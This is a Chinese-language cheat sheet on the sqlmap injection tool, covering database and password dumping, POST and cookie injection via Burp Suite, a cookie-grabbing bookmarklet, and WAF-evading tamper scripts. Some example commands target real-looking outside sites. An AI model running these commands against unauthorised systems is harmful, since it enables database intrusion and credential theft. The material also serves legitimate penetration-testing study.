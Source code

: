 # Sqlmap使用
### 常规用法
- `python sqlmap.py -u "地址" --dbs` 列取数据库的所有库
- `python sqlmap.py -u "地址" --users` 查询所有用户
- `python sqlmap.py -u "地址" --passwords` 查询账户和密码
- `python sqlmap.py -u "地址" --current-db` 列取当前数据库
- `python sqlmap.py -u "地址" --current-user` 查询当前用户
- `python sqlmap.py -u "地址" -D 库名 --tables` 查询库中所有表
- `python sqlmap.py -u "地址" -D 库名 -T 表名 --columns` 查询指定库指定表中所有列
- `python sqlmap.py -u "地址" -D 库名 -T 表名 -C 字段,字段,字段 --dump` 查询指定库指定表指定列名的字段
- `-D 库名 -T 表名 -C 字段,字段 -start 1 -stop 10 --dump` 导出 1 到 10 行的字段

### sqlmap post 注入

结合 burpsuite 来使用 sqlmap:
1. 浏览器打开目标地址http:// www.2cto.com /Login.as
2. 配置 burp 代理 (127.0.0.1:8080) 以拦截请求
3. 点击 login 表单的 submit 按钮
4. 这时候 Burp 会拦截到了我们的登录 POST 请求
5. 把这个 post 请求复制为 txt, 我这命名为 search-test.txt 然后把它放至 sqlmap 目录下
6. 运行 sqlmap 并使用如下命令： `python sqlmap.py -r search-test.txt -p tfUPass` 参数 -r 是让 sqlmap 加载 post 请求 rsearch-test.txt， 而 -p 指定注入用的参数。

### sqlmap cookies注入

`sqlmap.py -u “http://127.0.0.1/base.php” –cookies “id=1″ –dbs –level 2`

默认情况下SQLMAP只支持GET/POST参数的注入测试，但是当使用–level 参数且数值>=2的时候也会检查cookie时面的参数，当>=3的时候将检查User-agent和Referer，那么这就很简单了，我 们直接在原有的基础上面加上 –level 2 即可

利用sqlmap cookies注入突破用户登录继续注入 先把用户登陆的cookie拿到吧， 在收藏夹添加一个链接cookies属性： 名字自己取 javascript:alert(document.cookie)，，需要获取当前cookie的时候， 直接点一下这个链接，然后复制一下弹出对话框 里的cookie值就搞定了

`python sqlmap.py -u http://x.x.x.x/Down.aspx?tid=2 -p tid –dbms mssql –cookie=”info=username=test”`

-p是指指定参数注入

### sqlmap遇到url重写的注入

哪里存在注入就加上 * 号 `python sqlmap.py -u “http://www.cunlide.com/id1/1*/id2/2“`

### sqlmap 编码绕waf注入

- `python sqlmap.py -u http://127.0.0.1/test.php?id=1 -v 3 –dbms “MySQL” –technique U -p id –batch –tamper “space2morehash.py”`

在sqlmap 的 tamper目录下有很多space2morehash.py 编码脚本自行加载

### kuan
### 相关链接
- https://www.freebuf.com/sectool/164608.html
- http://www.91ri.org/3574.html
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTEzODIwNTYwNCwtMTkzMDA3OTA5NF19
-->